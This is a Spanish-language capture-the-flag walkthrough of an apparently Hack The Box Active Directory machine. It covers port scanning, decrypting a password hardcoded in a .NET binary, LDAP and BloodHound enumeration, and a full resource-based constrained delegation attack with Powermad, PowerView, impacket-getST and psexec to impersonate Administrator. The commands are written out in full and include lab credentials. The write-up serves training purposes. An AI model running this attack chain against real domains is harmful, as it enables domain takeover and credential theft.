

En esta maquina podremos fortalecer nuestro conocimiento sobre la explotación de directorio activo y herramientas para la enumeración de `ldap` y para la enumeración de escalada de privilegios  `bloodhound-python`, `bloodhound`, `./SharpHound.exe`  y `impacket-psexec`.


# Enumeración

Empezaremos enumerando los puertos abiertos de la maquina victima

```php
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.11.174 -oG allportsScan
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49664/tcp open  unknown          syn-ack
49667/tcp open  unknown          syn-ack
49676/tcp open  unknown          syn-ack
49679/tcp open  unknown          syn-ack
49754/tcp open  unknown          syn-ack
```

Entendamos un poco mas cada parámetro que lanzamos en la herramienta nmap:

- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos que están abiertos.
- `--min-rate 5000`: Establece la tasa mínima de paquetes enviados por segundo a 5000, lo que puede acelerar el escaneo al enviar más paquetes por segundo.
- `-vvv`: Activa la salida detallada muy verbosa para proporcionar una cantidad significativa de información sobre el progreso del escaneo.
- `-Pn`: Ignora el descubrimiento de hosts y asume que los hosts objetivo están activos.
- `-n`: Desactiva la resolución de DNS inversa, lo que hace que Nmap no intente resolver las direcciones IP a nombres de host.
- `10.10.11.174`: Especifica la dirección IP del objetivo del escaneo.
- `-oG allportsScan`: Guarda la salida del escaneo en formato Greppable en un archivo llamado `allportsScan`.

Luego de enumerar los puertos abiertos con la herramienta de `nmap` procederemos a realizar un escaneo de los servicios y las versiones que se ejecutan en los puertos abiertos.

```php
❯ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49679,49754 -sC -sV -Pn -n 10.10.11.174 -vvv -oN servicesScan

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-03-04 18:37:20Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         syn-ack Microsoft Windows RPC
49754/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 19493/tcp): CLEAN (Timeout)
|   Check 2 (port 41061/tcp): CLEAN (Timeout)
|   Check 3 (port 45724/udp): CLEAN (Timeout)
|   Check 4 (port 28743/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-03-04T18:38:16
|_  start_date: N/A
```

- `-p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49679,49754`: Especifica una lista de puertos a escanear. Estos puertos son comunes para servicios como DNS (53), Kerberos (88), LDAP (389), SMB (139, 445), LDAP SSL (636), RDP (3389), entre otros.
- `-sC`: Activa la opción de escaneo de scripts de Nmap. Estos scripts son comandos escritos en el lenguaje de scripting de Nmap (Nmap Scripting Engine) que se utilizan para detectar vulnerabilidades, realizar pruebas de seguridad, o recopilar información adicional sobre los servicios encontrados.
- `-sV`: Habilita la detección de versión de servicios, lo que permite a Nmap intentar determinar la versión de los servicios que se ejecutan en los puertos especificados.
- `-Pn`: Ignora la detección de hosts y asume que el objetivo está activo.
- `-n`: Desactiva la resolución de DNS inversa para las direcciones IP, lo que significa que Nmap no intentará resolver las direcciones IP a nombres de host.
- `10.10.11.174`: Especifica la dirección IP del objetivo del escaneo.
- `-vvv`: Activa la salida muy verbosa, proporcionando una gran cantidad de información detallada sobre el progreso del escaneo.
- `-oN servicesScan`: Guarda la salida del escaneo en formato normal en un archivo llamado `servicesScan`.

Se encontró un dominio que es `support.htb` lo cual debemos de tener en cuenta ya que nos enfrentamos a una maquina de directorio activo.

Seguiremos enumerando con la herramienta de `smbmap` con un usuario `guest`

```php
❯ smbmap -H 10.10.11.174 -u 'guest'
```

- `-H 10.10.11.174`: Especifica la dirección IP del objetivo al que se realizará el escaneo de SMB.
- `-u 'guest'`: Especifica el nombre de usuario que se utilizará para autenticarse en el servidor SMB. En este caso, se está utilizando el usuario 'guest', que es comúnmente utilizado para intentar acceder a recursos compartidos sin autenticación o con credenciales mínimas.


Encontramos un directorio al cual tenemos permisos de lectura que es `support-tools`


Enumerando dicho directorio nos encontraremos con binarios los cuales nos descargaremos para poder analizarlos en nuestra maquina local. El binario que enumeraremos es `UserInfo.exe`


Para hacer un reversing del binario usaremos dnspy
# Explotación

## dnspy

El programa [dnSpy](https://github.com/dnSpy/dnSpy) es ta disponible para windows, en este caso lo ejecutaremos bajo un windows10 y cargaremos el binario `UserInfo.exe`. Una vez cargado el archivo encontraremos lo siguiente:

- Una función en la que hace una consulta haciendo uso `ldap`


- Un archivo en la que al parecer desencripta la contraseña almacenanda


- El código que nos interesa estarán en los archivos `getPassword`, `enc_password` y  `key`


A continuación se muestran las funciones que se mencionarón: 
### getPassword

```c#
// UserInfo.Services.Protected  
// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318  
public static string getPassword()  
{   
	byte[] array = Convert.FromBase64String(Protected.enc_password);    
	 byte[] array2 = array;   
	  for (int i = 0; i < array.Length; i++)    
	 {        
	array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);    
	}    return Encoding.Default.GetString(array2);  
}
```

### enc_password

```c#
// UserInfo.Services.Protected  
// Token: 0x04000005 RID: 5  
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
```

### key

```c#
// UserInfo.Services.Protected  
// Token: 0x04000006 RID: 6  
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

Para desencriptar la contraseña podemos hacer uso del siguiente script en Python o podemos hacerlo con la misma herramienta de `dnSpy`

```python
#!/usr/bin/python3

import base64
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"

password_bytes = base64.b64decode(enc_password)
def decrypt_password(password_bytes, key):
	decrypted_bytes = bytearray(len(password_bytes))
	for i in range(len(password_bytes)):
		decrypted_bytes[i] = password_bytes[i] ^ ord(key[i % len(key)]) ^ 223
	return decrypted_bytes.decode()
	
decrypted_password = decrypt_password(password_bytes, key)
print("Decrypted Password:", decrypted_password)
```

### decripted.py

Luego de desencriptar obtendremos la contraseña:

```php
❯ python3 decripted.py
Decrypted Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

# Escalada de privilegios
## Usuario : ldap
### ldapdomaindump

Teniendo una usuario y una contraseña podremos enumerar el `ldap` y haciendo uso de `ldapdomaindump` podremos enumerar los distintos usuarios y grupos del sistema. Primero debemos de ejecutar la herramienta de la siguiente manera:

```shell
❯ ldapdomaindump -u 'support.htb\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Si las credenciales son validas, nos generara archivos como los que se ven en la siguiente imagen:



Haciendo uso de Python para iniciar un servidor u otro de tu preferencia, todo esto lo veremos desde el navegador para una mejor visión.

- En este caso tenemos las maquinas que están dentro del dominio


- Aquí podemos ver a todos los usuarios del dominio


- Lista de usuarios los cuales se pueden conectar remotamente al dominio


### ldapsearch

Seguiermos enumerando el servicio de `ldap` con las credenciales que encontramos, para ello podemos ayudarnos de [Hacktricks - ldap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap#ldapsearch) con el cual podemos enumerar ciertos usuarios e información sensible 

```php
❯ ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,dc=support,dc=htb'
```

Ejecutando lo anterior podremos visualizar lo siguiente:


En el apartado de `Info` podremos encontrar algo que parece ser una contraseña  que pertenece al usuario `support`

```php
.
.
.
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
.
.
.
```

Luego podremos obtener una lista de usuario con el cual podemos probar a realizar fuerza bruta u otro ataque, pero en mi caso no tuve éxito

```php
❯ cat users.txt
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
Administrator
Guest
```

## bloodhound - Usuario : support

Si recordamos la enumeración de `ldapdomaindump` tenemos que el usuario `support` tiene acceso para conectarse remotamente, con este usuario nos conectaremos con la herramienta de `evil-winrm`.

Efectivamente este usuario tiene permisos para conectarse. Ahora seguiremos enumerando el sistema con `bloodhound` y para esto tenemos dos maneras de obtener información del dc, uno es haciendo uso de `bloodhound-python` y otro es con `SharpHound.exe` el cual se debe de subir a la maquina victima y se debe ejecutar en este.
###  bloodhound-python

Para este caso solo necesitamos las credenciales y ejecutarlo como se muestra:

```php
❯ bloodhound-python -u support -p 'Ironside47pleasure40Watchful' -ns 10.10.11.174 -d support.htb -c all
```

Luego deberiamos de obtener un ouput como la siguiente imagen:


Luego de la ejecución obtendremos unos archivos:


Estos archivos debemos de cargarlos con el mismo `bloodhound` desde su interfaz grafica, pero antes debemos de configurar `neo4j` e iniciarlo.

```php
❯ ./BloodHound simplenote --no-sandbox
```

### SharpHound.exe

En este caso debemos de subir `SharpHound.exe` a la maquina victima, esto lo haremos con el comando `upload` y luego ejecutaremos `./SharpHound.exe -c all` 

```php
*Evil-WinRM* PS C:\Users\support\Files> upload SharpHound.exe
*Evil-WinRM* PS C:\Users\support\Files> ./SharpHound.exe -c all
```

Esto nos generara un archivo `.zip` el cual debemos descargarnos a nuestra maquina local

```php
*Evil-WinRM* PS C:\Users\support\Files> ./SharpHound.exe -c all
2024-03-04T23:21:38.3116387-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-04T23:21:38.3272255-08:00|INFORMATION|Initializing SharpHound at 11:21 PM on 3/4/2024
2024-03-04T23:21:38.5963908-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-04T23:21:38.7526130-08:00|INFORMATION|Beginning LDAP search for support.htb
2024-03-04T23:21:38.7994879-08:00|INFORMATION|Producer has finished, closing LDAP channel
2024-03-04T23:21:38.7994879-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-03-04T23:22:09.3893100-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-03-04T23:22:22.3260650-08:00|INFORMATION|Consumers finished, closing output channel
2024-03-04T23:22:22.3573149-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-03-04T23:22:22.5916840-08:00|INFORMATION|Status: 109 objects finished (+109 2.534884)/s -- Using 41 MB RAM
2024-03-04T23:22:22.5916840-08:00|INFORMATION|Enumeration finished in 00:00:43.8542997
2024-03-04T23:22:22.7011350-08:00|INFORMATION|SharpHound Enumeration Completed at 11:22 PM on 3/4/2024! Happy Graphing!

```

Luego de descargar el `.zip` descomprimiremos y luego cargar al `bloodhound` 
###  bloodhound

Cargando los archivos que obtuvimos con `bloodhound-python` o `SharpHound.exe` podremos observar que el usuario `support` pertenece al grupo `shared support accounts`


El grupo `shared support accounts` tiene privilegios de `GenericAll` y si revisamos en la ayuda de `bloodhound`


Revisando encontramos que podemos realizar un `based contrained delegation attack`


Para ello investigando encontraremos lo siguiente:
### Abusing Kerberos Resource-Based Constrained Delegation

Los siguientes recursos te ayudaran a entender sobre la explotación :

- [Resource-Based Constrained Delegation - ire.team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#creating-a-new-computer-object)
- [Resource-Based Constrained Delegation - lootsec](https://lootsec.io/abusing-active-directory-acl/)
- [Resource-Based Constrained Delegation - hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)

Para poder explotar la maquina con `Resource-Based Constrained Delegation attack` usaremos `PowerView` y `Powermad`

```php
*Evil-WinRM* PS C:\Users\support\Files> Import-Module .\PowerView.ps1

*Evil-WinRM* PS C:\Users\support\Files> Import-Module .\Powermad.ps1
```

Creando un nuevo objeto de computadora

```php
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```


Comprobar si se creo la computadora correctamente y  anotar su SID:


Cree un nuevo descriptor de seguridad sin formato para la `FAKE01`entidad principal de la computadora:

```php
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```


Modificación del objeto AD de la computadora de destino

Aplicar los bytes del descriptor de seguridad a la `DC`máquina de destino:

```php
Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```


Podemos probar si el descriptor de seguridad asignado a la computadora `dc`en el `msds-allowedtoactonbehalfofotheridentity`atributo se refiere a la `fake01$`máquina:

```php
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```


### rbcd-attack

Luego de ejecutar todo lo necesario haremos uso de `impacket-getST` o [rbcd - attack](https://github.com/tothi/rbcd-attack)

Ejecutaremos `impacket-getST` con el nombre de la maquina que creamos anteriormente y el usuario que queremos `impersonte` 

```php
❯ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/FAKE01$:123456
```


Luego debemos configurar la variable de entorno `KRB5CCNAME`

```php
❯ export KRB5CCNAME=Administrator.ccache
```

Para ejecutar `impacket-psexec` y asi podremos ingresar a la maquina victima sin proporcionar contraseña y siendo el usuario admistrator

```php
❯ impacket-psexec -k dc.support.htb
```

